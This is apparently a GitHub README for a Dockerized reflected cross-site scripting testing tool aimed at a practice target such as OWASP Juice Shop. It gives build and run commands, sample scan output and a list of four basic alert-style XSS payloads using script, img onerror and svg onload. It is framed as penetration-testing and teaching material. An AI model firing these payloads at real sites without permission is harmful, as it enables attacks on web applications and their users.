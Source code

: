 README.md

# Reflected XSS Testing Tool

This standalone tool is designed to test for **Reflected Cross-Site Scripting (XSS)** vulnerabilities on web applications. It sends crafted payloads to a specified endpoint and checks for potential vulnerabilities.

---

## Features

- **Automated Testing**: Iterates through a list of XSS payloads.
- **HTTP Response Logging**: Displays the status code for each request.
- **Dockerized Environment**: Portable and consistent testing setup.

---

## Usage

### Prerequisites

1. Ensure the target application (e.g., [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)) is running and accessible.
2. Install [Docker](https://www.docker.com/).

---

### Step 1: Clone or Copy the Repository

Download the tool to your local environment:
```bash
git clone https://github.com/YamatoGr93/reflected-xxs.git
cd reflected-xss

Step 2: Build the Docker Image

Build the tool's Docker image:

docker build -t reflected-xss .

Step 3: Run the Tool

Run the tool against a target endpoint. Replace <endpoint> with the vulnerable path on your target application (e.g., /search?q=):

docker run --rm --network host reflected-xss "<endpoint>"

Example:

docker run --rm --network host reflected-xss "/search?q="

Expected Output

For each payload in payloads.txt, the tool will generate URLs and log HTTP responses. Example output:

Testing Reflected XSS on endpoint: http://xxx.xx.x.x:3000/search?q=

Tested: http://xxx.xx.x.x:3000/search?q=<script>alert('XSS')</script> | Status: 200
Tested: http://xxx.xx.x.x:3000/search?q="><script>alert('XSS')</script> | Status: 200
Tested: http://xxx.xx.x.x:3000/search?q="><img%20src=x%20onerror=alert('XSS')> | Status: 200
Tested: http://xxx.xx.x.x:3000/search?q="><svg%20onload=alert('XSS')> | Status: 200

Payloads

The tool uses the following XSS payloads (stored in payloads.txt):

    <script>alert('XSS')</script>
    "><script>alert('XSS')</script>
    "><img src=x onerror=alert('XSS')>
    "><svg onload=alert('XSS')>

You can add or modify payloads in the payloads.txt file.
Troubleshooting
Common Issues

    Connection Refused: Ensure the target application is running and accessible.
        For local testing, verify the Juice Shop instance is running at http://localhost:3000.
        Use http://xxx.xx.x.x:3000 if running from within Docker.
    Host Resolution Error: Use the --network host option when running the Docker container.

Disclaimer

This tool is for educational and authorized penetration testing purposes only. Use it responsibly and only on systems you have permission to test.
Contribution

Feel free to fork this repository and submit pull requests to enhance the tool. Suggestions and improvements are welcome!
License

This project is licensed under the MIT License. See the LICENSE file for details.